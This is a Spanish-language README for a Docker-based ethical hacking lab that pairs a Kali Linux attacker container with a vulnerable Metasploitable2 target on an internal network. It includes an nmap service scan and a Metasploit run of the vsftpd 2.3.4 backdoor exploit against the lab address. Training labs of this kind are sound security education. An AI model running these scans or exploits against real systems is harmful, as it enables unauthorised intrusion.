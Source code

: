 # 🛡️ Laboratorio de Hacking Ético con Docker

Este repositorio contiene un entorno de laboratorio práctico para realizar ejercicios de hacking ético en un entorno seguro y aislado. Incluye:

- 🐧 Kali Linux como sistema atacante
- 🎯 Metasploitable2 como sistema vulnerable
- 🔗 Red virtual interna para simular ataques reales sin riesgos

---

## 🚀 Requisitos

- [Docker](https://www.docker.com/get-started)
- [Docker Compose](https://docs.docker.com/compose/install/)

---

## 🧰 Cómo usar

### 1. Clonar el repositorio (o crear tu propio docker-compose.yml)

```bash
git clone https://github.com/sterlux/ethical-hacking-lab.git
cd ethical-hacking-lab
```

### 2. Levantar los contenedores

```bash
docker-compose up -d
```

Esto levantará:

- `kali`: Kali Linux con bash interactivo
- `metasploitable`: Máquina con múltiples servicios vulnerables

### 3. Acceder al contenedor Kali

```bash
docker exec -it kali bash
```

### 4. Instalar herramientas en Kali

Dentro del contenedor Kali (una sola vez por sesión):

```bash
apt update
apt install -y metasploit-framework nmap net-tools curl iputils-ping
```

---

## 🧪 Escaneo de objetivos

Desde Kali, escanea Metasploitable:

```bash
nmap -sV 172.25.0.20
```

Deberías ver servicios vulnerables como:

- FTP (vsftpd 2.3.4)
- Telnet
- Apache 2.2.8
- Samba
- MySQL

---

## 🎯 Ejemplo de ataque con Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.25.0.20
run
```

---

## ⚠️ Advertencia

**Este laboratorio contiene software vulnerable.**  
No expongas estos contenedores a redes públicas.  
Usa siempre en entornos cerrados y educativos.

---

## 📦 Créditos

- [Kali Linux Docker](https://hub.docker.com/r/kalilinux/kali-rolling)
- [Metasploitable2 Docker (tleemcjr)](https://hub.docker.com/r/tleemcjr/metasploitable2)

---

## ✅ Red interna

| Contenedor     | IP          | Rol      |
| -------------- | ----------- | -------- |
| kali           | 172.25.0.10 | Atacante |
| metasploitable | 172.25.0.20 | Objetivo |
